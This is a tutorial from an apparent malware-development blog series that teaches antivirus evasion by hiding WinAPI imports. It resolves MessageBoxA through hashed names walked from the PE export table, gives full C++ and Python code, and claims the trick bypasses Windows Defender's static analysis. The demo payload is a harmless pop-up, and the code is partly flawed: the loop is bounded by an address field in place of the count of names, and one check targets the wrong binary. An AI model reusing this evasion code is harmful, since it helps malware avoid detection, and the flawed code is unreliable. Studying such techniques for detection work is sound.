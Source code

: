 # 04 evasion: winapi hashing

Another AV evasion trick. An example how to bypass AV engines in simple C++ malware.    

This is a simple but efficient technique for hiding WinAPI calls. It is calling functions by hash names and it's simple and often used in the "wild".    

Let's look all at an example and you'll understand that it's not so hard.    

Let’s look at an example:    

```cpp
/*
 * malware AV evasion
 * hack.c - without hashing WINAPI functions.
 * author: @cocomelonc
*/
#include <windows.h>

int main() {
  MessageBoxA(NULL, "Hello, Prishtina!", "=^..^=", MB_OK);
  return 0;
}
```

Compile it:    

```bash
i686-w64-mingw32-g++ hack.c -o hack.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -Wint-to-pointer-cast -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![img](./img/2024-05-03_10-56.png)     

Run it:    

```powershell
.\hack.exe
```

![img](./img/2024-05-03_13-56.png)    

As expected, it's just a pop-up window.    

Then run strings:    

```bash
strings -n 8 hack.exe | grep "MessageBox"
```

![img](./img/2024-05-03_13-58.png)    

As you can see, the WinAPI function are explicitly read in the basic static analysis and:    

```bash
objdump -x -D hack.exe | less
```

![img](./img/2024-05-03_14-17.png)    

visible in the application's import table.    

Now let's hide the WinAPI function `MessageBoxA` we are using from malware analysts. Let’s hash it:    

```python
# simple stupid hashing example
def myHash(data):
    hash = 0x35
    for i in range(0, len(data)):
        hash += ord(data[i]) + (hash << 1)
    print (hash)
    return hash

myHash("MessageBoxA")
```

and run it:    

```bash
python3 myhash.py
```

![img](./img/2024-05-03_14-27.png)    

What's the main idea? The main idea is we create code where we find WinAPI function address by it's hashing name via enumeration exported WinAPI functions.    

First of all, let’s declare a hash function identical in logic to the python code:    

```cpp
DWORD calcMyHash(char* data) {
  DWORD hash = 0x35;
  for (int i = 0; i < strlen(data); i++) {
    hash += data[i] + (hash << 1);
  }
  return hash;
}
```

Then, I declared function which find Windows API function address by comparing it's hash:    

```cpp
static LPVOID getAPIAddr(HMODULE h, DWORD myHash) {
  PIMAGE_DOS_HEADER img_dos_header = (PIMAGE_DOS_HEADER)h;
  PIMAGE_NT_HEADERS img_nt_header = (PIMAGE_NT_HEADERS)((LPBYTE)h + img_dos_header->e_lfanew);
  PIMAGE_EXPORT_DIRECTORY img_edt = (PIMAGE_EXPORT_DIRECTORY)(
    (LPBYTE)h + img_nt_header->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].VirtualAddress);
  PDWORD fAddr = (PDWORD)((LPBYTE)h + img_edt->AddressOfFunctions);
  PDWORD fNames = (PDWORD)((LPBYTE)h + img_edt->AddressOfNames);
  PWORD  fOrd = (PWORD)((LPBYTE)h + img_edt->AddressOfNameOrdinals);

  for (DWORD i = 0; i < img_edt->AddressOfFunctions; i++) {
    LPSTR pFuncName = (LPSTR)((LPBYTE)h + fNames[i]);

    if (calcMyHash(pFuncName) == myHash) {
      printf("successfully found! %s - %d\n", pFuncName, myHash);
      return (LPVOID)((LPBYTE)h + fAddr[fOrd[i]]);
    }
  }
  return nullptr;
}
```

The logic here is really simple. first we go through the PE headers to the exported functions we need. In the loop, we will look at and compare the hash passed to our function with the hashes of the functions in the export table and, as soon as we find a match, exit the loop:    

```cpp
//...
for (DWORD i = 0; i < img_edt->AddressOfFunctions; i++) {
  LPSTR pFuncName = (LPSTR)((LPBYTE)h + fNames[i]);

  if (calcMyHash(pFuncName) == myHash) {
    printf("successfully found! %s - %d\n", pFuncName, myHash);
    return (LPVOID)((LPBYTE)h + fAddr[fOrd[i]]);
  }
}
//...
```

Then we declare prototype of our function:    

```cpp
typedef UINT(CALLBACK* fnMessageBoxA)(
  HWND   hWnd,
  LPCSTR lpText,
  LPCSTR lpCaption,
  UINT   uType
);
```

and `main()`:    

![img](./img/2024-05-03_14-35.png)   

Let's go to compile our modified malware:    

```bash
i686-w64-mingw32-g++ hack2.c -o hack2.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -Wint-to-pointer-cast -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![img](./img/2024-05-03_14-39.png)    

and run:    

```powershell
.\hack2.exe
```

![img](./img/2024-05-03_14-43.png)    

As you can see, our logic is worked! Perfect :)    

Recheck IAT:    

```bash
objdump -x -D hack2.exe | less
```

![img](./img/2024-05-03_14-45.png)     

Recheck it via `strings`:    

```bash
strings -n 8 hack.exe | grep MessageBox
```

![img](./img/2024-05-03_14-46.png)    

If we delve into the investigate of the malware, we, of course, will find our hashes, strings like `user32.dll`, and so on. But this is just a case study.    

Many several years this trick is bypass Windows Defender's static analysis :)     